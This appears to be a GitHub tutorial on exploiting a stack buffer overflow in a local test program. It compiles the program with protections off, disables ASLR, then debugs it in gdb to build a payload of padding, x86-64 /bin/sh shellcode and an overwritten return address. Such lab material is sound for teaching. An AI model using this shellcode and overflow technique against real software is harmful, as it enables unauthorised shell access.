 

This approach of bufferOverflow uses gdb <br/>

You will need to compile it using the following compiler directives. You will notice that some security measures are turned off <br/>
- gcc -fno-stack-protector -z execstack buf.c -o buf <br/>
Next, you will need to remove another security precaution called ASLR. Execute the following command: <br/>
- sudo nano /proc/sys/kernel/randomize_va_space  <br/>

Run the obtained object file 'buf' passing a string input, say 'Hello' <br/>
./buf Hello <br/>

debug the execution using gdb debugger <br/>
- gdb -q buf <br/>

payload for the overflow:=  <br/>
'A'*76 + shellcode + // the 100 byte buffer  <br/>
'A'*12 + // the12 byte alignment part  <br/>
'B'*8 + // the 8 byte rbp <br/>
Return_address. // the 6 byte return address (rip) <br/>

We don't know the return address yet so we will just run it with any return address and when the program crashes we will <br/>
just examine memory and calculate the return address. How do we do that? Run the following from within gdb.

-Runnig the below command under gdb terminal should give access to shell on a linux distro <br/>
$(python -c "print 'A'*76+ <br/>
'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'+ <br/>
'A'*12+'B'*8+'C'*6")
